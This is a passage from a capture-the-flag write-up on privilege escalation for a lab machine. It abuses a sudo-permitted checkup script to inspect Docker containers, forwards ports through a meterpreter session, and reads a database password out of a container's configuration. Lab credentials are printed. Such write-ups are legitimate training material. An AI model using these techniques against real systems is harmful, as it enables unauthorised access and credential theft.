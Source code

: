 # Privilege excalation

First of all I checked the sudo privileges and I found that this user can run `/usr/bin/python3 /opt/scripts/system-checkup.py` with sudo privileges. Unfortunately we cannot have control over such python file since only root has read and write permissions. However, running such command I managed to figure out its behavior:
```bash
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Then I used such command to get info about the docker containers currently running on the platform:
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 57 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 57 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

From this I observed that gitea container it is exposing two ports to the localhost: 3000 and 22 (ssh). So, I connected to target host using msfconsole and I upgraded the sessions to a meterpreter session (`sessions -u <id>`). From the meterpreter session I was then able to forward such ports to my attacking machine:
```bash
portfwd add -l 80 -p 3000 -r 127.0.0.1
portfwd add -l 222 -p 222 -r 127.0.0.1
```
Then, I navigated to the webservice exposed on localhost. However, digging in such application (the login was cody:jh1usoih2bkjaspwe92) did not gave me much information, except that there exist another user on gitead (called administrator).
Then I tried to login on the ssh of the gitea container using the credentials found previously:
```bash
ssh cody@127.0.0.1 -p 222
```
However, the ssh did not even asked the password since it seems that a public key authentication is configured. I tried also other users (root and admin), but achieving the same result. In the GitHub repo of Gitea, looking into the Dockerfile, I found that the image is created with a user `git`. So, I tried to login also with such user, however nothing has changed.

Then I used docker-inspect feature to gain some additional info about the two containers. In particular I used the format `'{{ .Config }}'` to extract informations about the container configuration. By running this on the gitea container I got:
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{ .Config }}' gitea

{960873171e2e   false false false map[22/tcp:{} 3000/tcp:{}] false false false [USER_UID=115 USER_GID=121 GITEA__database__DB_TYPE=mysql GITEA__database__HOST=db:3306 GITEA__database__NAME=gitea GITEA__database__USER=gitea GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin USER=git GITEA_CUSTOM=/data/gitea] [/bin/s6-svscan /etc/s6] <nil> false gitea/gitea:latest map[/data:{} /etc/localtime:{} /etc/timezone:{}]  [/usr/bin/entrypoint] false  [] map[com.docker.compose.config-hash:e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515 com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:server com.docker.compose.version:1.29.2 maintainer:maintainers@gitea.io org.opencontainers.image.created:2022-11-24T13:22:00Z org.opencontainers.image.revision:9bccc60cf51f3b4070f5506b042a3d9a1442c73d org.opencontainers.image.source:https://github.com/go-gitea/gitea.git org.opencontainers.image.url:https://github.com/go-gitea/gitea]  <nil> []}
```